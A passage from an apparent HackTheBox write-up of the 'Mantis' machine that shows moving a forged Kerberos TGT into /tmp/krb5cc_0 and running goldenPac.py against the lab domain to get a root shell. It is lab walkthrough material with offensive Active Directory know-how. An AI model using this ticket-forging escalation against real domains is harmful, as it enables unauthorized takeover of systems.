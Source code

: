 ![pykek-1](/images/hackthebox-writeups/mantis/pykek-1.png)

Next, we need to move the ticket file named, `TGT_james@htb.local.ccache` to `/tmp/krb5cc_0`

![mv-1](/images/hackthebox-writeups/mantis/mv-1.png)

Now we have the Kerberos TGT, we can use the `goldenPac.py` script. The syntax is as follows:

{% highlight bash linenos %}
goldenPac.py htb.local/james@mantis.htb.local
{% endhighlight %}

### Root Shell w/ goldenPac

![root-gif](/images/hackthebox-writeups/mantis/root.gif)
